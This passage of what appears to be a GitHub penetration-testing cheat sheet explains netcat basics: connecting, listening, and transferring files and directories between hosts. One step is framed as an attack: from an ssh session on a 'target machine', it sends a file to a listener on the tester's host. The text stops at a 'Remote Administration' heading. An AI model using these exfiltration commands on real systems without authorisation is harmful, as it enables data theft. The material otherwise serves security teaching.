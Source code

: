 #### <span style="color:green">SCANNING</span> 

[back to STEPS](https://github.com/Kiljan/Voodoo#STEPS "STEPS")


## TOOLS 

[back to PENETRATION_TEST](https://github.com/Kiljan/Voodoo#PENETRATION_TEST "PENETRATION_TEST")

* [NETCAT](https://github.com/Kiljan/Voodoo#NETCAT "NETCAT")
* [TCPDUMP](https://github.com/Kiljan/Voodoo#TCPDUMP "TCPDUMP")
* [WIRESHARK](https://github.com/Kiljan/Voodoo#WIRESHARK "WIRESHARK")

#### <span style="color:green">NETCAT</span>

[back to TOOLS](https://github.com/Kiljan/Voodoo#tools "TOOLS")

* Connecting to a TCP/UDP Port
    *	The most basic syntax is __"netcat [options] host port"__ and to initiate a TCP connection on the defined host, on the port number, I simply use:
        ```
        netcat host port
	*	To send a UDP packet instead of initiating a TCP connection, I can use the -u option:
		```
        netcat -u host port
* Listening on a TCP/UDP Port
	*	TCP
        ```
		netcat -l host port
	*	UDP
		```
        netcat -l -u host port
* Transferring Files with Netcat
    *	Create a listener on Mine machine and pipe the traffic from the input into a file
        ```
        nc -lvvp 4444 > file_to_download.txt
        
        -l = State that we are going to be listening
        -vv = Show extra verbosity
        -p = We are going to supply a port for listening
        4444 = This is the port will be listening on			
    
    *	Back on the ssh session on the target machine we are going to transfer the file through netcat to the listening port on our local machine
	    ```
        nc -nvv 192.168.1.141 4444 < file_to_download.txt
        
        -n == do not resolve IP address using DNS
	*	Be aware that netcat will not tell you once the file has finished transferring. It is a good idea to open another shell and do __ls -ls fileToTransfer.csv.enc__ to check when the file has stopped increasing in size.
* Transfer a whole directory (including its content) from one host to another
	*	On the sender side run first:
		```
        tar cfvz - folderToPass/ | nc -lp 10000
	*	Second. On the client side run:
		```
        nc [sender ip] 10000 | tar xfvz -
	*	No info will be printed. But I can check in Wireshark my connection. When I got [PSH, ACK] then 
		I can terminate sending file from sender machine
* Remote Administration with Netcat
	*	Ubuntu Server 18.04
    <sub>FUN Script

